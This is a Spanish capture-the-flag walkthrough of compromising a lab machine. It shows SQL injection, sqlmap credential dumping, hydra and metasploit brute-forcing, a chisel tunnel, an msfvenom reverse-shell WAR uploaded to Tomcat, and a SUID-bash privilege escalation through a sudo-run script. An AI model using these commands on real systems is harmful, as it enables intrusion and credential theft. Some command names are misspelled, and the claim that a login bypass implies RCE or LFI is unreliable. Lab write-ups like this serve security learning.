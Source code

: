 nmap: 22,80

![image](https://github.com/user-attachments/assets/c7952ccc-1a71-4e0f-8171-57b0b65eff9f)

---

entramos a la pagina principal

![image](https://github.com/user-attachments/assets/5b370534-bdd8-4936-8f3f-2f41dd4890cf)


En el login de la pagina

![image](https://github.com/user-attachments/assets/08eeadc6-b8c7-451d-8990-0d9e60ec74bf)


probamos un sql básico " 'or 1=1-- -" y nos da acceso al panel de control, o sea es vulnerable a un RCE o LFI.  y buscando que mas hacer par obtener algún usuario o algo, encontré que podemos ver la base de datos por esto:

![image](https://github.com/user-attachments/assets/f7d1bf36-5e3a-44ae-b6b6-610cded1346a)


probamos con la base de datos

    sqlpmap --url http://172.17.0.2/login.php --forms --batch --dbs

![image](https://github.com/user-attachments/assets/5135f540-3545-4ba5-9d04-2dd87713d821)


ahora mas especifico:

    qlmap --url http://172.17.0.2/login.php --forms --batch --dbs --time-sec=1 --dump

nos da después de un rato una tabla con usuarios y contraseñas posibles:

![image](https://github.com/user-attachments/assets/763169fd-80d6-447c-be57-2bdafc6f3932)

creamos en nuestra terminal un txt de pass y user. 
luego un hydra para que pruebe combinaciones: 

    hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV

nos dio: 

![image](https://github.com/user-attachments/assets/e52d80f1-af2d-4400-aa76-828e83f0f9d8)

entramos por el ssh

![image](https://github.com/user-attachments/assets/f7c0fa87-a2b7-41cd-a94f-e3c665e96fac)

y vemos que hay tres usuarios: Alice, Mario y rosa que somos nosotros.

escalamos: encontré esta nota  

![image](https://github.com/user-attachments/assets/d19e416a-dacb-41fd-a87b-8d763cce1240)

![image](https://github.com/user-attachments/assets/f8951e5a-d763-411d-834c-04e1c4690a46)

el contenido de la nota: flowerpower.
probé si era la contraseña pero no es y
buscando probé con el comando 

     netstat -an

y me dio esto que me llamo la atención

![image](https://github.com/user-attachments/assets/78ebbd5b-efa2-49a3-84c4-9d4d57fd3244)

descargamos chisel: https://github.com/jpillora/chisel/releases/tag/v1.10.0

gunzip chisel
y lo pasamos a la maquina victima con wget mientras tenemos el servidor abierto en nuestra terminal. 

    wget http://172.17.0.2/chisel

![image](https://github.com/user-attachments/assets/426933b9-39c2-4449-a92d-6419d50b27e2)

iniciamos en nuestra terminal un servidor: 

    ./chisel server -p 1234 --reverse
y en la maquina víctima: 

    ./chisel client 172.17.0.1:1234 R:443:127.0.0.1:8080

![image](https://github.com/user-attachments/assets/3951ac97-1b21-4dcd-b412-72d98c1db16e)

entonces entramos al puerto 8080 por el 443:
http://127.0.0.1:443/

![image](https://github.com/user-attachments/assets/ad125df8-1b3c-4920-9000-60a0dce2a4c8)

ahora empezamos a escalar hacia los otros usuarios a través de "manager app" de la pagina tomcat.

como ninguna credencial que buscamos en: https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat

sirvió mas abajo en la misma pagina nos muestra que busquemos por metasploit:

hacemos una fuerza bruta  a través de metasploit con los siguientes pasos:

     - use auxiliary/scanner/http/tomcat_mgr_login
     - set RHOSTS 127.0.0.1
     - set RPORT 8080
     - set USER_FILE /home/skopjee/user.txt
     - set PASS_FILE /home/skopjee/pass.txt
     - set TARGETURI /manager/html
     - run
y nos dio

    [+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra


ingresamos a mager app

![image](https://github.com/user-attachments/assets/a08c51e3-d37c-4724-b19f-e32878b0b8ce)

creamos un archivo malicioso: 

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o rev.war

lo subimos en el apartado de "WAR"

![image](https://github.com/user-attachments/assets/1b98e90d-1784-408a-8e54-70d09ee51e97)

cargamos y a parecerá en la parte principal de la pagina como "rev"

![image](https://github.com/user-attachments/assets/6fa74400-6985-45c9-acfc-63e741031fdf)

ahora colocamos el terminal en escucha y nos conectamos

![image](https://github.com/user-attachments/assets/7d717caa-6b8f-4e36-bc13-f1d2bf9f5525)

luego de conectarme buscamos como llegar a root:

![image](https://github.com/user-attachments/assets/a5c2ada3-0d35-40ca-b1ca-5d58598a3596)

escalamos privilegios con sh:

    echo 'chmod u+s /bin/bash' >> /opt/tomcat/bin/catalina.sh

ahora lo iniciamos

     sudo -u root /opt/tomcat/bin/catalina.sh start

si vemos los permisos bash veremos que cambiaron:

![image](https://github.com/user-attachments/assets/72f11ffe-d1bd-4a6d-88ae-73ff5bce0be9)

y al hace el bash -p seremos root!
